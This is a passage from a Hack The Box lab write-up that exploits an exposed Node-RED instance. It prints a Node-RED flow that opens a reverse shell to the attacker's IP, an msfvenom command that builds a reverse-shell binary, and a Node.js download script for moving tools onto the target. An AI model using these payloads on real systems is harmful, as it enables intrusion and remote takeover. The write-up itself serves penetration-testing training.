 Since I can't `GET`, let's try `POST`.

### Node-RED


{% include image.html image_alt="34217a09.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/34217a09.png" %}


Nice! Let's follow the hint from the output above.


{% include image.html image_alt="b4cac579.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/b4cac579.png" %}


Node-RED allows command execution. Import the following flow into the Node-RED and you should see something like this.

```json
[{"id":"30fa9bc2.3414cc","type":"tcp in","z":"506564e3.6cef04","name":"","server":"client","host":"10.10.13.52","port":"1234","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":120,"y":80,"wires":[["cc2b2fad.f52d6"]]},{"id":"4f71ce1a.fc7078","type":"tcp out","z":"506564e3.6cef04","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":650,"y":80,"wires":[]},{"id":"cc2b2fad.f52d6","type":"exec","z":"506564e3.6cef04","command":"/bin/bash -c","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":410,"y":160,"wires":[["4f71ce1a.fc7078"],["4f71ce1a.fc7078"],[]]}]
```


{% include image.html image_alt="277ccaaf.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/277ccaaf.png" %}


Here, I'm running a reverse shell flow, executing `/bin/bash -c` and returning `stdout` and `stderr` to myself. And, because it's running under the context of `/bin/bash -c`, commands with space has to be enclosed in quotes.

Bummer, I know.

That's why I spun off another reverse shell with `msfvenom`.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.13.52 LPORT=9999 -f elf -o rev
```

Next, I've to find a more efficient way of transferring files over to the remote target. To that end, I wrote a `wget` utility in Node.js since `node` and the `request` modules are available. The script has two arguments: the first argument is the download URL and the second argument is the path to save the file.

<div class="filename"><span>wget.js</span></div>

```js
const fs = require('fs');
const request = require('request');

var args = process.argv.slice(2);
var url = args[0];
var location = args[1];

request(url).pipe(fs.createWriteStream(location));
```


[1]: https://www.hackthebox.eu/home/machines/profile/147
[2]: https://www.hackthebox.eu/home/users/profile/12438
[3]: https://www.hackthebox.eu/